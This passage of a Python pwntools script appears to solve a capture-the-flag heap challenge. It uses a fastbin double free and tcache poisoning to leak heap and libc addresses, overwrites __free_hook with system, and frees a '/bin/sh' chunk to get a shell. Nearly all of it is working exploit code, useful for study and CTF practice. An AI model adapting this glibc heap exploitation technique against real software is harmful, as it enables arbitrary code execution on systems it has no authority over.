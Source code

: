 ```python
    p.recvuntil(b"input the size")
    p.sendline(str(size).encode())
    p.recvuntil(b"now you can write something")
    p.send(content)

def free(index:int):
    cmd(2)
    p.recvuntil(b"input the index")
    p.sendline(str(index).encode())

def exp():
    new(0, 0x70, b'arttnba3') 
    p.recvuntil(b"gift :")
    heap_leak = int(p.recvuntil(b'\n', drop = True), 16)
    log.info('heap addr leak: ' + hex(heap_leak))
    heap_base = heap_leak - 0x11e70 # tcache struct 's header
    log.success('heap base: ' + hex(heap_base)) # leak 0

    for i in range(1,10):
        new(i, 0x70, b'arttnba3')
    for i in range(7): # 0~6 free tcache is full
        free(i)
    #gdb.attach(p)
    free(7) #  free(x) to tcache then free(x) to fastbin can't trigger error
    free(8)
    free(7) # fastbin double free 

    for i in range(10,17): 
        new(i, 0x70, b'/bin/sh\x00') # 10 ~ 16 == 0 ~ 6
    #gdb.attach(p)
    new(17, 0x70, p64(heap_base + 0x10)) # stash , fastbin to tcache
    # gdb.attach(p)
    new(18, 0x70, b'arttnba3')
    new(19, 0x70, b'arttnba3')
    new(20, 0x70, (b'\x00' * 35 + b'\x07' * 1).ljust(0x40, b'\x00') + p64(heap_base + 0x10) * 6)
    #gdb.attach(p)
    # change 36th to 7 (36th is 0x250, the size of tcache struct)
    # and change tcache_entry *entries[0~6] which ranges from 0x20 to 0x70
    free(20) # to unsorted bin
    gdb.attach(p)
    # why tcache_entry changed ?
    new(21, 0x20, b'arttnba3')
    new(22, 0x20, b'arttnba3') # can't pwndbg
    p.recvuntil(b"gift :")
    libc_leak = int(p.recvuntil(b'\n', drop = True), 16)
    log.info('libc addr leak: ' + hex(libc_leak))
    libc_base = libc_leak - 0x3ebca0
    log.success('libc base: ' + hex(libc_base))

    #gdb.attach(p)
    new(23, 0x50, (b'\x01' * 10).ljust(0x40, b'\x00') + p64(libc_base + libc.sym['__free_hook']) * 2)
    new(24, 0x10, p64(libc_base + libc.sym['system']))
    free(10)
    p.interactive()

if __name__ == '__main__':
    exp()
```

